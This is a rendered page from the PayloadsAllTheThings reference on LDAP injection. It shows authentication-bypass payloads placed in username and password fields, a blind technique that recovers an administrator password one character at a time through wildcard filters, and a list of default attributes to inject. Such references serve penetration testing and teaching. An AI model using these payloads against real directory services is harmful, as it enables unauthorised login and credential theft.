

repository: swisskyrepo/PayloadsAllTheThings · page: LDAP Injection/index.html · generator: mkdocs

# LDAP Injection

> LDAP Injection is an attack used to exploit web based applications that construct LDAP statements based on user input. When an application fails to properly sanitize user input, it's possible to modify LDAP statements using a local proxy.

## Summary

* [Methodology](#methodology)
    * [Authentication Bypass](#authentication-bypass)
    * [Blind Exploitation](#blind-exploitation)
* [Defaults Attributes](#defaults-attributes)
* [Exploiting userPassword Attribute](#exploiting-userpassword-attribute)
* [Scripts](#scripts)
    * [Discover Valid LDAP Fields](#discover-valid-ldap-fields)
    * [Special Blind LDAP Injection](#special-blind-ldap-injection)
* [Labs](#labs)
* [References](#references)

## Methodology

LDAP Injection is a vulnerability that occurs when user-supplied input is used to construct LDAP queries without proper sanitization or escaping

### Authentication Bypass

Attempt to manipulate the filter logic by injecting always-true conditions.

**Example 1**: This LDAP query exploits logical operators in the query structure to potentially bypass authentication

```sql
user  = *)(uid=*))(|(uid=*
pass  = password
query = (&(uid=*)(uid=*))(|(uid=*)(userPassword={MD5}X03MO1qnZdYdgyfeuILPmQ==))
```

**Example 2**: This LDAP query exploits logical operators in the query structure to potentially bypass authentication

```sql
user  = admin)(!(&(1=0
pass  = q))
query = (&(uid=admin)(!(&(1=0)(userPassword=q))))
```

### Blind Exploitation

This scenario demonstrates LDAP blind exploitation using a technique similar to binary search or character-based brute-forcing to discover sensitive information like passwords. It relies on the fact that LDAP filters respond differently to queries based on whether the conditions match or not, without directly revealing the actual password.

```sql
(&(sn=administrator)(password=*))    : OK
(&(sn=administrator)(password=A*))   : KO
(&(sn=administrator)(password=B*))   : KO
...
(&(sn=administrator)(password=M*))   : OK
(&(sn=administrator)(password=MA*))  : KO
(&(sn=administrator)(password=MB*))  : KO
...
(&(sn=administrator)(password=MY*))  : OK
(&(sn=administrator)(password=MYA*)) : KO
(&(sn=administrator)(password=MYB*)) : KO
(&(sn=administrator)(password=MYC*)) : KO
...
(&(sn=administrator)(password=MYK*)) : OK
(&(sn=administrator)(password=MYKE)) : OK
```

**LDAP Filter Breakdown**:

* `&`: Logical AND operator, meaning all conditions inside must be true.
* `(sn=administrator)`: Matches entries where the sn (surname) attribute is administrator.
* `(password=X*)`: Matches entries where the password starts with X (case-sensitive). The asterisk (*) is a wildcard, representing any remaining characters.

## Defaults Attributes

Can be used in an injection like `*)(ATTRIBUTE_HERE=*`

```bash
userPassword
surname
name
cn
sn
objectClass
mail
givenName
commonName
```
